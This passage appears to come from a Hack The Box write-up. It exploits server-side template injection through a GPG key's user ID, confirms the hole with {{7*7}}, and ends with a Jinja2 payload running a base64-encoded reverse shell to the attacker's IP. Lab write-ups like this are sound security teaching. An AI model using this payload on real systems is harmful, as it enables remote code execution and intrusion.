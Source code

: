 
If it works, it will show my UID as "49"
... it doesn't work. Might need to have a normal uid and then change it after the fact?



After much effort and experimenting, I was able to get a change!
We need to alter the uid for the original signature. 
```bash
gpg --edit-key test@test.com
```
> The email must be the same as the key you made to test!

```bash
gpg> adduid
```
this will prompt to add a second uid name to the chain. We're going to use `{{7*7}}` to see if my name changes. 

![Pasted image 20230623223201](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/d8114caf-fef5-4caa-9a76-3152b0fd8144)

Notice at the bottom, the two names that were made
Now use the `trust` command. 

![Pasted image 20230623223546](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/989bb407-e195-4f61-8cd8-4c45575b9a1a)


We now need to select the original. It will have the * symbol next to it. 

![Pasted image 20230623223417](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/e8f5299d-0551-4e57-bb3e-537c20e5d488)

Now we need to delete the original name:

![Pasted image 20230623223623](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/21f896f2-2560-46d0-81ad-b5bf44d23dc1)

Use the `save` command to save

Now create the signed message and export the public key again. This time, it will use the new name:
```bash
gpg -a -o test.key --export {{7*7}}
```

Testing this message on the site gets:

![Pasted image 20230623223804](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/2aa4a61a-ffbb-4406-83c1-bb3d09b5f9f7)

It did the math! This is our point of entry!

I need to change the code to run something on the other box. I'm thinking netcat. [I found a github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) detailing techniques:

![Pasted image 20230623225010](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/fb0ed23e-e954-4909-b7ef-77a8c169bd6b)


I'll also need to encode my shell. after base64 encoding, I created a command that looks like this:

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ5LzkwMDEgMD4mMQ==" | base64 -d | bash').read() }}
```
